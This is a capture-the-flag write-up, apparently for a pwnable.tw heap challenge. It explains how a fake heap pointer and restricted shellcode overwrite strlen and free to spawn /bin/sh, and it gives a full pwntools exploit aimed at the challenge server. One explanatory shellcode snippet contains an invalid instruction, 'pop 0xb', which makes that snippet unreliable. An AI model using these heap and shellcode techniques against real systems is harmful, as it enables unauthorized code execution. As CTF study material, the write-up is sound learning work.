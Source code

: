 The intented solution should be constructing `read` shellcode, but my solution is to bypass the check of `strlen`.

Since we can't input `ret (\xc3)`, but we can fake a fd ptr on the heap which has `\xc3` , where we can `jne` to. (1/16 chance)

```python
for i in range(0x30):
    add(0, 'a\n')
add(1, 'a\n') # write shellcode
add(0, 'a\n')
add(0, 'a\n')
add(0, 'a\n')
add(2, 'a\n')
add(3, 'a\n') # fd has \xc3
dele(2)
dele(3)
dele(1)
```

Then on the heap 1, we can write shellcode like this:
```
# Part 1
push eax (P)
pop eax (X)
push 0 (j\x00)
# Part 2
pop eax (X)
jne xx (uJ)
```
Since we can't input `\x00`, we can first write part 2, then free it, and write part1.
```python
add(1, 'aaaaXuJ\n')
dele(1)
add(-22, 'PXj\n')
```
So the `strlen` function has been changed into `return 0`.

Then we can input arbitrary characters once, I choose to rewrite `strlen` function at first.
```python
add(-22, asm("xor eax, eax;ret") + '\n')
```

Then we can input arbitrarily, we can rewrite `free` function to get shell:
```python
sh = """
    push eax
    pop ebx
    push 11
    pop 0xb
    int 0x80
"""
add(-27, asm(sh))
add(2, "/bin/sh\x00")
dele(2)
```

Exp:
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
# Copyright © 2019 hal

from pwn import *

#context.log_level = "debug"
context.terminal = ['tmux', 'split', '-h']

pwn_file = ("./pwn")
elf = ELF(pwn_file)
libc = ELF("./bc.so.6")

def debug():
    gdb.attach(r, "b *0x080487AE\nb *0x8048828")

def add(idx, name):
    r.sendlineafter(" :", '1')
    r.sendlineafter(" :", str(idx))
    r.sendafter(" :", name)

def show(idx):
    r.sendlineafter(" :", '2')
    r.sendlineafter(" :", str(idx))

def dele(idx):
    r.sendlineafter(" :", '3')
    r.sendlineafter(" :", str(idx))

while True:
    try:
        #r = process(pwn_file)
        r = remote("chall.pwnable.tw", 10300)
        for i in range(0x30):
            add(0, 'a\n')
        add(1, 'a\n')
        add(0, 'a\n')
        add(0, 'a\n')
        add(0, 'a\n')
        add(2, 'a\n')
        add(3, 'a\n')
        dele(2)
        dele(3)
        dele(1)
        add(1, 'aaaaXuJ\n')
        dele(1)
        add(-22, 'PXj\n')

        print "start!!!"
        add(-22, asm("xor eax, eax;ret") + '\n')
        print r.recvline()
    except:
        print "error"
        r.close()
        continue
    else:
        break

context.log_level = "debug"

sh = """
    push eax
    pop ebx
    push 0xb
    pop eax
    int 0x80
"""
add(-27, asm(sh))
add(2, "/bin/sh\x00")
dele(2)

r.interactive()
```
